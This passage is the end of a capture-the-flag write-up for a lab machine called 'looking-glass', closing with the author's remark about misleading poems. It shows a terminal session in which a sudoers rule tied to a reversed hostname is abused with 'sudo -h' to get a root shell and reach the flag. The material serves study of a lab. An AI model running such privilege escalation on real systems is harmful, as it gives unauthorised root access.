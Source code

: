 ```bash
alice@looking-glass:~$ ls /etc/sudoers.d/
README  alice  jabberwock  tweedles
alice@looking-glass:~$ cat /etc/sudoers.d/alice 
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
alice@looking-glass:~$ sudo -h ssalg-gnikool /bin/bash 
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:~# cd /root
root@looking-glass:/root# ls
passwords  passwords.sh  root.txt  the_end.txt
root@looking-glass:/root# ls passwords
passGenerator.py  wordlist.txt
root@looking-glass:/root# 
```
in there I found the second flag, reversed just like the first, and the script responsible for generating random passwords on each boot

### conclusion
this box has made me hate poems since with each user I got a new poem and I kept reading it and thinking it was some sort of a clue just to find out the solution was totally unrelated

